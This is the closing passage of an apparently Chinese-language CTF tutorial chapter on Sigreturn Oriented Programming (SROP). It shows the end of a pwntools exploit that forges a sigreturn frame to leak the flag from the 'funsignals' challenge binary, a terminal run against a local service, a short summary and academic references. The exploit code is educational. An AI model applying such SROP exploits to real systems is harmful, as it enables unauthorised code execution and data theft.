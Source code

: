 ```python
frame.rsi = elf.symbols['flag']
frame.rdx = 50
frame.rip = elf.symbols['syscall']

io.send(str(frame))
io.interactive()
```
```
$ python2 exp_funsignals.py
[*] '/home/firmy/Desktop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
如果连接的是远程服务器，`fake_flag_here_as_original_is_at_server` 会被替换成真正的 flag。

这一节我们详细介绍了 SROP 的原理，并展示了一个简单的例子，在后面的章节中，会展示其更复杂的运用，包扩结合 vDSO 的用法。


## 参考资料
- [Framing Signals—A Return to Portable Shellcode](http://www.ieee-security.org/TC/SP2014/papers/FramingSignals-AReturntoPortableShellcode.pdf)
- [slides: Framing Signals a return to portable shellcode](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)
- [Sigreturn Oriented Programming](https://www.slideshare.net/AngelBoy1/sigreturn-ori)
- [Sigreturn Oriented Programming is a real Threat](https://subs.emis.de/LNI/Proceedings/Proceedings259/2077.pdf)
- [Sigreturn Oriented Programming (SROP) Attack攻击原理](http://www.freebuf.com/articles/network/87447.html)

